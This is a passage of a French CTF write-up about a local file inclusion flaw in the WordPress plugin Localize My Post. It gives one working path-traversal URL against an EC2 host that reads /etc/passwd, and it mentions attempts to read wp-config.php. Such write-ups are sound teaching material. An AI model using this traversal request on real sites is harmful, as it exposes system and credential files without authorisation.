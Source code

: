 Localize My Post est vulnérable aux LFI: [https://www.exploit-db.com/exploits/45439](https://www.exploit-db.com/exploits/45439)

OUI ON A BIEN UNE LFI :)

http://ec2-18-221-119-66.us-east-2.compute.amazonaws.com/blog/wp-content/plugins/localize-my-post/ajax/include.php?file=../../../../../../../../../../etc/passwd

![Image](/img/JISCTF_38.png){: .center-block :}

On essaye de lire wp-config.php mais impossible... Acces à index.php mais impossible de l'extraire en base64. Les filtres php semblent être interdits :(

**Poursuivez avec :** 

- [PicoCTF 2020 - Bypass de filtres SQL](https://0xss0rz.github.io/2020-11-21-PicoCTF-bypass-SQL-filters/)

- [DownUnderCTF 2020 - Write-ups](https://0xss0rz.github.io/2020-09-20-DownUnderCTF-2020-Write-ups/)

- [CSAW CTF Quals 2020](https://0xss0rz.github.io/2020-09-14-CSAW-CTF-Quals-2020/)

[![CC-BY](https://mirrors.creativecommons.org/presskit/buttons/88x31/svg/by.svg)](https://creativecommons.org/licenses/by/4.0/)

This work is licensed under a [Creative Commons Attribution 4.0 International License](https://creativecommons.org/licenses/by/4.0/).
